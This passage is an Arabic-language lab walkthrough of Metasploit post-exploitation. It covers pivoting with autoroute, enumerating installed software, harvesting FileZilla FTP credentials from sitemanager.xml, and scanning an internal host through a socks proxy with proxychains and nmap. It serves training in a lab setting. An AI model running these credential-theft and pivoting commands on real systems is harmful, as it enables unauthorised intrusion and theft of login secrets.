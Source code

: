 خلونا الان نرجع لدومين الثاني الي ماقدرنا نوصله ونحاول نسوي بنق من الجهاز الي اخترقناه  
```bash
shell  
ping 10.0.21.170  
```  
نشوف انه فعلا عندنا اتصال الان خلونا نسوي Pivoting  
اول شي بنخلي السيشن بالخلفيه ونضيف ايبي الشبكة الى الراوت تيبل  
```bash
CTRL + C  
y  
run autoroute -s 10.0.21.170/20  
```  
نشوف انه فعلا تم اضافة الشبكة الى الراوت تيبل بدون اي مشاكل  

خلونا نركز على هدف اللاب وهو انه نستخدم بعض الموديولز الي تفيدنا بعد الاستغلال  

معنا اول موديول اليوم الي هو  
```bash
run post/windows/gather/enum_applications  
```
وظيفة هذا الموديول يعطيك كل البرامج المثبته على الجهاز  
نشوف انه عطانا اكثر من برنامج مثبت على التارقت  
نشوف انه حصلنا محمل برنامج FileZilla Client 3.57.0 ولما بحثنا شوي عرفنا انه فيه موديول يخص هذا البرنامج بالتحديد  

الموديول الثاني وظيفته يعطيك اليوزر والباسورد حق FTP عن طريق FileZilla  
```bash
run post/multi/gather/filezilla_client_cred  
```  
نشوف انه عطانا اليوزر بس الباسورد ماهو واضح او مفهوم  
طبعا الموديول يحفظ المخرجات بشكل xml ويحفظه لنا ف نقدر نقرا الملف خلونا نجرب ممكن الباسورد هناك واضح  
طبعا هو حفظه لنا على جهاز التارقت بمسار معين عطانا اياه اول ماشغلنا الموديول  
```bash
cat C:\\Users\\Administrator\\AppData\\Roaming\\FileZilla\\sitemanager.xml  
```  
وزي ماقلنا سابقا نخلي دبل باك سلاش لانه لو نحط واحد راح يعتبره سكيب  
ونشوف الان انه فعلا عندنا باسورد نقدر نقراه وواضح والان نقدر ندخل بالـ FTP  

الان خلونا نرجع لفكرة البفتنق  
طبعا حنا اضفنا الشبكة في الراوت تيبل  
خلونا نشوف سيرفر الـ proxychains  
```bash
cat /etc/proxychains4.conf  
```  
نشوف انه على بورت 9050 واصداره 4  
خلونا نرجع للميتاسبلويت ونشغل السيرفر  
```bash
background  
use auxiliary/server/socks_proxy  
show options  
set SRVPORT 9050  
set VERSION 4a   
exploit  
jobs  
```  
طيب حلو الان شغال السيرفر بالجوبز خلونا الان نسوي nmap scan  
```bash
proxychains nmap demo1.ine.local -sT -Pn -p 1-50  
```  
نشوف انه بورت 22و21 مفتوحه  
